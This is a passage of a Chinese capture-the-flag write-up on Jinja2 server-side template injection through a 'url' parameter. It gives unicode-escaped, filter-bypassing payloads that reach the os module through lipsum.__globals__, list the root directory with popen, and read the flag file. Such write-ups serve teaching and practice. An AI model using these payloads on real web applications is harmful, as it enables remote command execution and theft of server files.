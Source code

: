 ![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737874075207-8a918def-6bde-4ef3-9bd0-20153919361d.png)

接着找os模块

```php
?url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))%}
等价于
?url={{lipsum.__globals__}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737874320953-66588065-c1a8-4de6-afc8-f2401ad3ec35.png)

<font style="color:rgb(77, 77, 77);">引用popen，查目录</font>

```php
?url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u0067\u0065\u0074%22)(%22os%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u006c\u0073\u0020\u002f%22)|attr(%22\u0072\u0065\u0061\u0064%22)())%}
等价于
?url={{lipsum.__globals__.get("os").popen("ls").read()}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737874478070-c0d5fa8f-057b-4c30-a611-c0fd59d1973c.png)

最后读取flag

```php
?url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u0067\u0065\u0074%22)(%22os%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067%22)|attr(%22\u0072\u0065\u0061\u0064%22)())%}
等于
?url={{config.__class__.__init__.__globals__.get(“os”).popen('cat flag').read()}}
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737874719136-ad0834d6-f7a6-4982-a364-87c44c55ac50.png)

